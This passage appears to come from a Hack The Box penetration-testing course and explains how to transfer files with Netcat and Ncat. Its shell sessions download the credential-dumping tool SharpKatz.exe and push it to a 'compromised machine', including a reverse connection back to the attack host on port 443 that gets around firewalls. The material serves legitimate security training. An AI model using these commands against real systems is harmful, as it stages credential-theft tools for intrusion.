 From our attack host, we'll connect to the compromised machine on port 8000 using Netcat and send the file [SharpKatz.exe](https://github.com/Flangvik/SharpCollection/raw/master/NetFramework\_4.7\_x64/SharpKatz.exe) as input to Netcat. The option `-q 0` will tell Netcat to close the connection once it finishes. That way, we'll know when the file transfer was completed.

**Netcat - Attack Host - Sending File to Compromised machine**

Miscellaneous File Transfer Methods

```shell-session
AIceBear@htb[/htb]$ wget -q https://github.com/Flangvik/SharpCollection/raw/master/NetFramework_4.7_x64/SharpKatz.exe
AIceBear@htb[/htb]$ # Example using Original Netcat
AIceBear@htb[/htb]$ nc -q 0 192.168.49.128 8000 < SharpKatz.exe
```

By utilizing Ncat on our attacking host, we can opt for `--send-only` rather than `-q`. The `--send-only` flag, when used in both connect and listen modes, prompts Ncat to terminate once its input is exhausted. Typically, Ncat would continue running until the network connection is closed, as the remote side may transmit additional data. However, with `--send-only`, there is no need to anticipate further incoming information.

**Ncat - Attack Host - Sending File to Compromised machine**

Miscellaneous File Transfer Methods

```shell-session
AIceBear@htb[/htb]$ wget -q https://github.com/Flangvik/SharpCollection/raw/master/NetFramework_4.7_x64/SharpKatz.exe
AIceBear@htb[/htb]$ # Example using Ncat
AIceBear@htb[/htb]$ ncat --send-only 192.168.49.128 8000 < SharpKatz.exe
```

Instead of listening on our compromised machine, we can connect to a port on our attack host to perform the file transfer operation. This method is useful in scenarios where there's a firewall blocking inbound connections. Let's listen on port 443 on our Pwnbox and send the file [SharpKatz.exe](https://github.com/Flangvik/SharpCollection/raw/master/NetFramework\_4.7\_x64/SharpKatz.exe) as input to Netcat.

**Attack Host - Sending File as Input to Netcat**

Miscellaneous File Transfer Methods

```shell-session
AIceBear@htb[/htb]$ # Example using Original Netcat
AIceBear@htb[/htb]$ sudo nc -l -p 443 -q 0 < SharpKatz.exe
```

**Compromised Machine Connect to Netcat to Receive the File**

Miscellaneous File Transfer Methods

```shell-session
victim@target:~$ # Example using Original Netcat
victim@target:~$ nc 192.168.49.128 443 > SharpKatz.exe
```

Let's do the same with Ncat:

**Attack Host - Sending File as Input to Ncat**

